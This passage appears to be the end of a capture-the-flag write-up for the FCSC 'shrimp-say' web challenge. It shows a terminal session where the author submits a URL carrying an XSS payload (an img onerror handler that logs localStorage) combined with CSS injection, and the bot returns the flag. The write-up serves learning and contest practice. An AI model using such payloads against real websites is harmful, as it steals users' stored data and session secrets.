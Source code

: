 Ah, we forgot to use the right domain, we have to use `http://shrimp-say/` instead of `https://shrimp-say.fcsc.fr/`.

Let's try again:

```terminal
$ nc chall.fcsc.fr 2203
==========
Tips: Every console.log usage on the bot will be sent back to you :)
==========

Please provide the URL you want to visit:
http://shrimp-say/?msg=%3E%09mg%20src%3Dx%20onerror%3Dconsole.log(JSON.stringify(localStorage))%3E&bg=white;}%23data{display:block;width:3ch;word-break:break-all;text-wrap-mode:wrap;}%23data::first-line{text-transform:uppercase

Starting the browser...
[T1]> New tab created!
[T1]> navigating        | about:blank

Setting the flag in the localStorage for http://shrimp-say/...
[T1]> navigating        | http://shrimp-say/?msg=Hello%20Shrimp&bg=lightblue

Going to the user provided link...
[T1]> navigating        | http://shrimp-say/?msg=%3E%09mg%20src%3Dx%20onerror%3Dconsole.log(JSON.stringify(localStorage))%3E&bg=white;}%23data{display:block;width:3ch;word-break:break-all;text-wrap-mode:wrap;}%23data::first-line{text-transform:uppercase
[T1]> console.error     | Failed to load resource: the server responded with a status of 404 (Not Found)
[T1]> console.log       | {"flag":"FCSC{f6e865cb389605d91470af3b8555e4535463a1a56157c16c858fa8e9c5ff4513}"}

Leaving o/
[T1]> Tab closed!
[T0]> Tab closed!
```

There we go, we can submit the flag !

```
FCSC{f6e865cb389605d91470af3b8555e4535463a1a56157c16c858fa8e9c5ff4513}
```
